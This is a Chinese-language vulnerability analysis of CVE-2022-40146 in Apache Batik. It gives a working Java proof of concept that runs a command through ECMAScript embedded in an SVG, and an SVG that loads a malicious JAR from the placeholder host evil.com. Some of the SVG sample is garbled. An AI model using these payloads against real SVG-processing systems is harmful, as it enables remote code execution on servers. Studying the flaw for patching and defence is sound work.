


# CVE-2022-40146 Apache XML Graphics Batik RCE
## 影响版本
< 1.16
## 环境搭建
https://xmlgraphics.apache.org/batik/download.html
## 原理分析
### Scripting with ECMAScript
该方式普遍可以适用于Version<1.16,在1.16版本中限制了能加载的包名,但还是存在潜在的利用类.  

ECMAScript是一个基于Java的Js开源组件,在Batik中默认支持在svg中嵌入ECMAScript代码,然而通过ECMAScript代码是可以执行任意代码的.
[Scripting with ECMAScript](https://xmlgraphics.apache.org/batik/using/scripting/ecmascript.html)  
根据文档只需要指定script type为`text/ecmascript`即可.  
```js
  <script type="text/ecmascript">
    // ECMAScript code to be executed
  </script>
```
根据ECMAScript语法,可以直接新建一个Runtime对象即可.  
但默认情况下Batik不支持执行脚本,所以需要配置`KEY_EXECUTE_ONLOAD`为True.
`t.addTranscodingHint(JPEGTranscoder.KEY_EXECUTE_ONLOAD,Boolean.TRUE);`
### 漏洞复现
poc:
```java
import org.apache.batik.transcoder.TranscoderException;
import org.apache.batik.transcoder.TranscoderInput;
import org.apache.batik.transcoder.TranscoderOutput;
import org.apache.batik.transcoder.image.JPEGTranscoder;

import java.io.*;

public class Batik {
    public static void main(String[] args) throws IOException, TranscoderException {
        String rcesvg ="<svg id=\"body\" width=\"450\" height=\"500\" viewBox=\"0 0 450 500\"\n" +
                "     xmlns=\"http://www.w3.org/2000/svg\" version=\"1.2\"\n" +
                "     xmlns:xlink=\"http://www.w3.org/1999/xlink\" >\n" +
                "    <script type=\"text/ecmascript\">\n" +
                "        eval(''+new String(java.lang.Runtime.getRuntime().exec('calc.exe')));\n" +
                "    </script>\n" +
                "</svg>";
        JPEGTranscoder t = new JPEGTranscoder();
        t.addTranscodingHint(JPEGTranscoder.KEY_EXECUTE_ONLOAD,Boolean.TRUE);
        byte[] svgbytes = rcesvg.getBytes();
        TranscoderInput input = new TranscoderInput(new ByteArrayInputStream(svgbytes));
        OutputStream outputStream = new FileOutputStream("test.jpg");
        TranscoderOutput transcoderOutput = new TranscoderOutput(outputStream);
        t.transcode(input,transcoderOutput);
        outputStream.flush();
        outputStream.close();

    }
}
```

### Referencing Java code from a document
该方式只适用于Version<1.15.  
根据官方文档,在Batik中为SVG还实现了对JAVA代码的绑定,简单来说可以从SVG文件的元素中引用JAVA代码.  
[Referencing Java code from a document](https://xmlgraphics.apache.org/batik/using/scripting/java.html)  
根据文档描述只需要指定元素type为`application/java-archivexlink:href`然后后面指定一个URI定位JAR文件即可.  
  
然后该jar包里面需要有一个继承于`EventListenerInitializer`类的恶意类,在其`initializeEventListeners`方法中执行恶意代码即可.  
SVG文件类似如下:
```js
<svgid=“body”width=“450”height=“500”viewBox=“0 0 450 500”
     xmlns=“http://www.w3.org/2000/svg”版本=“1.2”
     xmlns：xlink=“http://www.w3.org/1999/xlink” >
    <script type=“application/java-archive”xlink：href=“jar：http：//evil.com/poc.jar！/”></script >
</.svg>
```  
同样根据CVE-2022-38398的方法使用jar协议来绕过安全脚本策略.  
但该方法因为代码的一个bug需要手动指定允许的脚本类型,相比于ECMAScript来说适用性没那么高,不作深究. 
具体可参考https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading  
## 补丁
针对远程加载jar包的利用则限制了href的协议不能为jar协议.  
针对ECMAScript脚本利用的方式則是在1.16中增加了白名单的包名,但仍然可能存在利用的类.
## 参考
https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading